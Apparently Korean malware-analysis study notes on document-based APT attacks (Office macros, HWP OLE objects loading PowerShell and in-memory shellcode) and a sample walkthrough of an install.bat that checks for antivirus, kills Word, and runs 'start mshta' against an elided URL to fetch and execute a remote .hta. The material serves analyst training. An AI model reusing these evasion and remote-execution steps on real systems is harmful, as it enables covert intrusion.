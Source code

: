 그럼 정상프로세스가 호출된거기 때문에 탐지가 어렵다.   
탐지가 어려워서 분석도 어렵다..

분석가도 어렵게 하고, 자기의 페이로드도 안걸리게 하는   
굉장히 유용한 공격 방식이다

## 5.3 문서형 APT 공격 방식
- 악성코드가 실행 파일(.exe)가 아닌 문서 파일(.hwp .doc .xlsx등)로 유포
- 문서 내부 동작 매커니즘으로 악성코드가 동작하는 방식
- MS Office Macro, Hwp OLE, PDF Script 등
- 주로 악성코드를 불러오는 Loader 역할로 활용

주로 국내는    
한글 or MS workd   
교모하게 악성 스크립트를 exploit 해서    
매크로가 동작할 수 있도록   
컨텐츠 사용 버튼을 누른다면?    
파워쉘 스크립트가 동작해서   
파워쉘 스크립트가 연결되서     
쉘코드가 메모리에 받아온다   

악성코드 최종 페이로드(키보드 입력 정보 수집, 화면 캡처, PC 암호화)는 PC에서 거의 찾을 수 없다.

근데 메모리에서는 찾을 수 있다   
그래서 악성코드는 메모리 영역을 공부를 잘 해야 한다

- 최근 빠른 보안 패치로 문서형 악성코드 비중 과거 대비 감소
- OLE 개체를 이용한 APT 공격 여전히 활발하게 시도

OLE 개체 안에 악성 스크립트가 있어서 허용 팝업을 누르면 악성 스크립트 동작



### everything
파일 경로에 생성이 되면 everything에 생성이 될 것

### MooO FileMonitor
작성 : 파일이 write
수정 : modify
삭제 : delete

## Sample 1
install.bat 파일을 notepad로 확인이 가능하기 때문에 열어봄   
avast 백신 프로그램이 존재하는지 확인하기 위한 for문   
avp 백신 프로그램이 존재하는지 확인하기 위한 for문   

없을 경우에는    
winword.exe 프로세스 종료시키고    
template 폴더에 ~~링크에 있는 파일을 다운시켜서 저장

start mshta https://~~~/32.hta 다운로드 받아서 동작을 시킨다



monitor 캡쳐 시작하고 install.bat 파일 실행    
IBM 설치 프로그램 설치 함.   
32.hta 라는 빈 프로그램이 나옴.   
